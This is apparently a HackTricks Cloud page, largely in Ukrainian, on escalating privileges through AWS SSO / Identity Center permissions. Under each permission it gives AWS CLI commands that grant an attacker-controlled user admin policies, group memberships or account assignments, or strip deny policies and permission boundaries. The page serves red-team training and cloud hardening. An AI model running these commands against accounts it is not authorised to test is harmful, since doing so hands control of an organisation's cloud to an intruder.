 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Для отримання додаткової інформації про AWS Identity Center / AWS SSO перегляньте:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Зверніть увагу, що за **замовчуванням** лише **користувачі** з правами **з** **Управлінського облікового запису** зможуть отримати доступ і **керувати IAM Identity Center**.\
Користувачі з інших облікових записів можуть це дозволити лише якщо обліковий запис є **делегованим адміністратором.**\
[Перегляньте документацію для отримання додаткової інформації.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Скидання пароля~~

Легкий спосіб підвищити привілеї в таких випадках, як цей, полягає в тому, щоб мати дозвіл, який дозволяє скинути паролі користувачів. На жаль, можливо лише надіслати електронний лист користувачеві для скидання його пароля, тому вам знадобиться доступ до електронної пошти користувача.

### `identitystore:CreateGroupMembership`

З цим дозволом можливо додати користувача до групи, щоб він успадкував усі дозволи, які має група.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи до Набору дозволів, який надано користувачу під його контролем

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи до Набору дозволів, який надано користувачу під його контролем

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цими дозволами може надати додаткові дозволи до Набору дозволів, який надано користувачу під його контролем.

{% hint style="warning" %}
Щоб зловживати цими дозволами в цьому випадку, вам потрібно знати **назву політики, що керується клієнтом, яка є в усіх облікових записах**, які будуть під впливом.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Зловмисник з цим дозволом міг би надати Набір дозволів користувачу під його контролем для облікового запису.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Повертає короткострокові облікові дані STS для вказаного імені ролі, яка призначена користувачу.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Однак вам потрібен токен доступу, якого я не впевнений, як отримати (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Зловмисник з цим дозволом може видалити асоціацію між керованою політикою AWS та вказаним набором дозволів. Можливо надати більше привілеїв через **від'єднання керованої політики (політика відмови)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Зловмисник з цим дозволом може видалити асоціацію між політикою, що керується замовником, та вказаним набором дозволів. Можливо надати більше привілеїв через **від'єднання керованої політики (політики відмови)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Зловмисник з цим дозволом може видалити дозволи з вбудованої політики з набору дозволів. Можливо надати **більше привілеїв, відключивши вбудовану політику (політика заборони)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Зловмисник з цим дозволом може видалити межу дозволів з набору дозволів. Можливо надати **більше привілеїв, видаливши обмеження на набір дозволів**, наданий з межі дозволів.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
